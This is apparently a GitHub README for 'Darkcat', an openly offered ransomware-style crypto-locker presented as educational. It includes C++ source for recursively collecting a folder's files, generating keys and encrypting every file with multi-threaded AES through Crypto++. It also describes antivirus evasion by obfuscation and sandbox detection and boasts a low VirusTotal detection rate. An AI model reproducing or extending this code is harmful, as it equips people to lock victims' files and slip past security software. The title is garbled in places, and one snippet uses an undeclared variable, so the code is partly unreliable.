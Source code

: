
**DISCLAIMER**: This tool is intended for educational purposes only.
The author assumes no responsibility or liability for any damages
caused by the execution of this algorithm, use at your own risk.

# 74E>64G Project - A Strong Prototype Locker
Darkcat is an Open Source Crypto-locker directed at an audience with an interest in the field of Cyber Security. The locker is similar to how very obnoxious Ransomwares operate using 2-Layer Key Encryption with the intent of making it almost impossible to recover any key from memory even during the event of Encryption. It utilizes Multi-threaded 128-bit AES Encryption which makes it very fast with the cost of leaving somewhat of a footprint on the CPU for modern activity based Antivirus Softwares to pick up. My Kaspersky didn't detect any suspicious activity in most runs, especially ones that didn't involve lots of files, with that being said the algorithm logs keys on the console but doesn't save any, so use at your own risk.
```c
/*   -0-    ,    *     o    .     *    .    o    .  -O-   '  *  . o
 *  .  '     ____  ____  ____  _  __ ____  ____  _____  .  '  ,  *
 *     .  * /  _ \/  _ \/  __\/ |/ //   _\/  _ \/__ __\  *  . |  '
 *  *     . | | \|| / \||  \/||   / |  /  | / \|  / \  '  ,  o  '
 *  .  '    | |_/|| |-|||    /|   \ |  \_ | |-||  | | ' |   *   .
 *  '  *  . \____/\_/ \|\_/\_\\_|\_\\____/\_/ \|  \_/ *     .    o
 *  *    '  ,     '     .    -0-    .    *    .  ' |   ,   *    '
 * Alexander
 * Toepfer 2020
 */
```

![Preview](in-the-wild.gif)

## Summary
  1. AV Evasion techniques used to bypass Engines.
  2. Fetching files recursively from a given root directory.
  3. Generation of 128-bit Keys used for Encryption.
  4. Multi-threaded Encryption applied on sorted vector of files.

## AV Evasion techniques
The techniques used for AV Engine Evasion in Darkcat are Behaviour Obfuscation, Data Encryption and Sandbox Detection which make it fairly successful in dealing with most Engines that analyze the binary or execute it, but it is still far from perfect, as some elaborate AV Softwares using analysis based on Machine learning still detect malicious activity, which makes this implementation not FUD. In the following Code Snippets all of the above mentioned techniques will be left out, as otherwise the Source Code would be unreadable.

## Fetching files from directory
```c
    std::string path = "C:\\Path\\To\\Testfolder";
    /* First loop identifying files */
    std::vector< file > files;
    for( const auto& entry : std::filesystem::recursive_directory_iterator( path ) ) {
        if( std::filesystem::is_regular_file( entry.path() ) ) {
            /* Ignore any keyfiles in the directory */
            if( entry.path().filename() == keyfilestr )
                continue;
            /* Ignore certain files in certain modes */
            if( ( ( entry.path().extension() == fileExtension ) && encrypt ) ||
                ( ( entry.path().extension() != fileExtension ) && !encrypt ) )
                continue;
            file f( entry.path(), std::filesystem::file_size( entry.path() ) );
            /* Ignore files that are included already */
            if( std::find( files.begin(), files.end(), f ) != files.end() )
                continue;
            files.push_back( f );
        }
    }
    /* Sort by size with file.operator>() */
    std::sort( files.begin(), files.end() );
```
You could also do this with Boost instead of \<filesystem\> but it comes down to preference. You will also need to implement a file class for this implementation to work to store file information and for sorting, but that's not really a requirement, feel free to use an array of filesystem::path if that fits your needs.

## 128-bit Key Generation
```c
std::string randomString( size_t length ) {
    /* Function returning the charset used */
    const auto chset = charset();
    std::default_random_engine rng( std::random_device{}() );
    /* Uniformly distributed values on closed interval */
    std::uniform_int_distribution<> dist( 0, chset.size() - 1 );
    /* Function returning a random character from charset */
    auto randchar = [ chset, &dist, &rng ]() { return chset[ dist( rng ) ]; };
    std::generate_n( str.begin(), length, randchar );
    return str;
}
std::string key1 = randomString( 16 ), key2 = randomString( 16 );
```
You could also use rand() with modulo here to just generate n-indices for your charset but i prefer this solution even though seeding the random generator is a complete nightmare and the standard makes no guarantees about its quality, efficiency or repeatability between implementations.

## Multi-threaded Encryption
```c
/* Second loop alter files */
std::vector< std::thread > threads;
for( const auto& f : files ) {
    if( encrypt ) {
	    std::thread t( fileEncrypt,  f.path, key, iv );
		threads.emplace_back( std::move( t ) );
	}
	else ...
}
/* Wait for processes to finish */
for( int i = 0; i < threads.size(); ++i ) {
    threads[ i ].join();
}

/* Crypto++ encryption of std::string */
std::string stringEncrypt( std::string plain,
                           CryptoPP::byte key[ CryptoPP::AES::DEFAULT_KEYLENGTH ],
                           CryptoPP::byte iv[ CryptoPP::AES::BLOCKSIZE ] ) {
    std::string cipher;
    CryptoPP::AES::Encryption aesEncryption( key, CryptoPP::AES::DEFAULT_KEYLENGTH );
    CryptoPP::CBC_Mode_ExternalCipher::Encryption cbcEncryption( aesEncryption, iv );
    CryptoPP::StreamTransformationFilter stfEncryptor( cbcEncryption,
					               new CryptoPP::StringSink( cipher ) );
    stfEncryptor.Put( reinterpret_cast< const unsigned char* >( plain.c_str() ),
		      plain.length() );
    stfEncryptor.MessageEnd();
    return cipher;
}
```
For AES-128 I didn't make my own implementation here because the solution needs to be somewhat fast and reliable, but I can see making an adaptation could help with more AV Evasion in the long run so it's very tempting.

## Virustotal (4/70)

![Preview](virustotal-scan.gif)

## Copyright and license
Code and documentation copyright 2021 Alexander Töpfer. Code released under the MIT License

